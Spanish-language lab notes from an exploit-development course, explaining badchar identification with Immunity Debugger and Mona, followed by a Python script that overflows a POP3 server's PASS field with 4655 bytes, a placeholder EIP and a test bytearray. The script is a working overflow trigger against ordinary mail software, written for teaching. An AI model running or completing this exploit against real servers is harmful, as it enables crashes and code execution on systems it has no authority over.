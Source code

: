 En la generación de nuestro shellcode malicioso para la explotación del buffer overflow, es posible que algunos caracteres no sean interpretados correctamente por el programa objetivo. Estos caracteres se conocen como “**badchars**” y pueden causar que el shellcode falle o que el programa objetivo se cierre inesperadamente.

Para evitar esto, es importante identificar y eliminar los badchars del shellcode. En esta clase, veremos cómo desde Immunity Debugger podremos aprovechar la funcionalidad **Mona** para generar diferentes bytearrays con casi todos los caracteres representados, y luego identificar los caracteres que el programa objetivo no logra interpretar.

Una vez identificados los badchars, se pueden descartar del shellcode final y generar un nuevo shellcode que no contenga estos caracteres. Para identificar los badchars, se pueden utilizar diferentes técnicas, como la introducción de diferentes bytearrays con caracteres hexadecimales consecutivos, que permiten identificar los caracteres que el programa objetivo no logra interpretar.

Estos caracteres irán representados en la pila (**ESP**), que será donde veremos qué caracteres son los que no están siendo representados, identificando así los badchars.![[Screenshot (24).png]]

![[Screenshot (25).png]]

```python
#!/usr/bin/python3
   2   │ 
   3   │ import socket
   4   │ import sys
   5   │ 
   6   │ #Variables globales
   7   │ 
   8   │ ip_address = "10.47.1.42"
   9   │ lport = 110
  10   │ offset = 4655
  11   │ 
  12   │ before_eip = b"A"*offset
  13   │ 
  14   │ eip = b"B"*4
  15   │ after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  16   │       b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  17   │       b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  18   │       b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  19   │       b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  20   │       b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  21   │       b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  22   │       b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") 
  23   │ 
  24   │ 
  25   │ payload = before_eip + eip + after_eip
  26   │ 
  27   │ def exploit():
  28   │ 
  29   │     # Create a socket
  30   │     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  31   │ 
  32   │     # Connect to the server
  33   │ 
  34   │     s.connect((ip_address, lport))
  35   │     
  36   │     # Revice the banner
  37   │      
  38   │     banner = s.recv(1024)
  39   │ 
  40   │     s.send(b"USER lotus" + b'\r\n')
  41   │     response = s.recv(1024)
  42   │     s.send(b"PASS" + payload + b'\r\n')
  43   │     s.close()
  44   │ 
  45   │ if __name__ == "__main__":
  46   │     exploit()    
```

